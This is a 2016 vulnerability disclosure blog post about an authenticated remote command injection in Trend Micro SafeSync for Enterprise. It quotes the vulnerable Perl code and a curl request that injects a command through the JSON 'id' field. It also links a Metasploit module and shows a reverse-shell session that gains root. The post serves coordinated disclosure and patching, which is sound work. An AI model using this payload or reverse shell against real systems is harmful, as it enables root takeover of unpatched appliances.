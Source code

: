```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part II"
date:   2016-09-06 07:00:00
author: qkaiser
excerpt: |
    Trend Micro Safe Sync for Enterprise is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of Safe Sync for Enterprise to gain remote command execution with root privileges.
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Safe Sync for Enterprise is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of Safe Sync for Enterprise to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro(TM) SafeSync for Enterprise(TM) allows enterprises to securely synchronize, share, and manage corporate data. Deployed on premise and in a private cloud, SafeSync provides file encryption and document tagging to prevent unauthorized access to sensitive data. SafeSync also supports file version control and redundant file backup.
	       
I recommend anyone running SafeSync for Enterprise to apply the critical patch released by Trend Micro, available at the following location:

* Safesync Enhancement Pack 1 (SSFE 3.2) - [http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1)

Trend Micro Advisory is available on their [business support website](https://success.trendmicro.com/solution/1115193-security-bulletin-trend-micro-safesync-for-enterprise-ssfe-remote-code-execution-vulnerability)

#### Affected Versions

* Trend Micro Safe Sync for Enterprise up to version 3.2

### Authenticated RCE - Technical Description

The following Perl script do not sanitize user inputs prior to using them as parameters of system commands:

* /opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm

An authenticated user can abuse this by injecting his own commands using different kind of operators such as &&, ; , >, <.

Let's look at the vulnerable component:

**/opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm [lines 747-772]**

In the excerpt below, we can see that ```$server_id``` is directly initialiazed from unsanitized json data values and fed
to ad_changed_sync.py command as ```--sync``` and ```--updatehost``` parameters.

{% highlight perl %}
sub ad_sync_now_PUT {
  my ( $self, $c ) = @_;
  my $reqdata = $c->req->data;
  my $server_id = $reqdata->{id};

  my $result;
  eval {
    system("/opt/SingleInstaller/ad_module/ad_python/bin/python /opt/SingleInstaller/ad_module/ad_changed_sync.py --sync $server_id  --updatehost $server_id &");
  };
  my $e;

  if ( $e = Exception::Class->caught('InternalErrorException') ) {
    $c->response->status(500);
    $result = {
      code  => 'ERROR_INTERNAL_ERROR',
      error => $e->description
    };
  } else {
    $c->response->status(200);
    $result = {};
  }
  $c->stash->{json} = $result;
  $c->forward('View::JSON');
}
{% endhighlight %}


From a client point of view, this would happen like this:

{% highlight bash %}
curl -X PUT -k -i 'https://safesync.local:3443/api/admin/ad/ad_sync_now' -H 'Accept: */*' -H 'Host: safesync.local:3443' -H 'Content-Type: application/json; charset=utf-8' -H 'Referer: https://safesync.local:3443/admin_ldap_integration.html' -H 'Cookie: mgmtui_session=268b871790680ba79c5de832b18549e6cb908e16' --data '{"id":"1; INJECTED COMMAND"}
{% endhighlight %}

### Proof-of-Concept

Take a look at the Metasploit [module](https://github.com/QKaiser/metasploit-framework/blob/master/modules/exploits/linux/http/trendmicro_safesync_exec.rb) I wrote. It works to get a reverse shell as root but in a weird way, using interactive `sh` and FIFO files. This is because the injection happen within a `sh -c 'command'` call, meaning it will raise a "file descriptor not found" if you try the usual reverse shell in bash.

On the plus side, you can always use python if you can't live without tty.

```
msf exploit(trendmicro_safesync_exec) > run
[*] Started reverse TCP handler on kali.local:4444
[*] Successfully logged in.
[*] Exploiting...
[*] Command shell session 12 opened (kali.local:4444 -> safesync.local:47333) at 2016-09-06 13:19:29 -0400
[*] Command Stager progress - 100.00% done (690/690 bytes)

/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty; pty.spawn("/bin/bash")'
root@appliance1:/#
```

I doubt I'll try to merge the module upstream until I get it to work in a generic way (support for meterpreter stager).

### Conclusion

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.

Part III will discuss yet another Trend Micro product where I managed to be greeted with ```#```. If everything goes as expected, advisory should be released by September 30th.


### Disclosure Timeline

* **2016-07-20**: Advisory sent to Trend Micro 
* **2016-07-22**: Trend Micro acknowledge the issue
* **2016-08-11**: Trend Micro released patch
* **2016-09-06**: Advisory publication
